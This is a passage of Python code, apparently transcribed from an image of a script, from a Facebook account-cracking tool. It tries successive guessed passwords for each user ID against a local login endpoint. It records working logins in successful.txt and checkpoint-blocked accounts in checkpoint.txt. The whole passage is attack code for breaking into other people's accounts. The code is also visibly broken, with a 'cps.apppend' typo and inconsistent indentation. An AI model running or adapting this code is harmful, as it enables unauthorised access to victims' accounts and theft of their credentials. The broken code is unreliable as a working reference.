 									cp = open("checkpoint.txt","a")

									cp.write(uid+" | "+pass3+"\n")

									cp.close()

									cps.append(uid+pass3)

								else:

									data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass4, headers=header).text

									q = json.loads(data)

									if "loc" in q:

										print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass4+"\033[0;97m")

										ok = open("successful.txt", "a")

										ok.write(uid+" | "+pass4+"\n")

										ok.close()

										oks.append(uid+pass4)

									else:

										if "www.facebook.com" in q["error"]:

											print(" \033[1;91m[CheckPoint] "+uid+" | "+pass4+"\033[0;97m")

											cp = open("checkpoint.txt","a")

											cp.write(uid+" | "+pass4+"\n")

											cp.close()

											cps.apppend(uid+pass4)

									        else:

									                data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass5, headers=header).text

									                q = json.loads(data)

									                if "loc" in q:

										                print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass5+"\033[0;97m")

										                ok = open("successful.txt", "a")

										                ok.write(uid+" | "+pass5+"\n")

										                ok.close()

										                oks.append(uid+pass5)

									                else:

										                if "www.facebook.com" in q["error"]:

											                print(" \033[1;91m[CheckPoint] "+uid+" | "+pass5+"\033[0;97m")

											                cp = open("checkpoint.txt","a")
